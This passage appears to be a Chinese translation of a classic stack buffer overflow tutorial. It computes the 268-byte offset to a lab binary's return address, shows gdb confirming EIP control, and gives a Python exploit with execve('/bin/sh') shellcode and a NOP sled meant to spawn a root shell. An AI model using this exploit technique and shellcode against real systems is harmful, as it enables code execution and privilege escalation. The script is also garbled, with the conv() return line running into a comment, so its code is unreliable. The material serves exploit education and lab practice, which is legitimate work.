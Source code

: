堆栈布局显示返回地址位于距目标缓冲区buf的偏移（0x10c）处。0x10c计算如下：

0x10c = 0x100 + 0x8 + 0x4

其中:
- 0x100 is ‘buf’ 大小
- 0x8 is 对齐空间    //这里有点不太明白为啥需要对齐
- 0x4 is 调用者的ebp

因此，用户输入的 "A" * 268 + "B" * 4，覆盖了buf，对齐空间和调用者的ebp覆盖为A并且返回地址变为BBBB。

```Shell
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。 位于堆栈位置（0xbffff1fc）的返回地址被BBBB覆盖。 有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

##### 测试步骤3：使用攻击代码

攻击代码：

```Python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",numnk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序，给了我们root shell，如下所示：
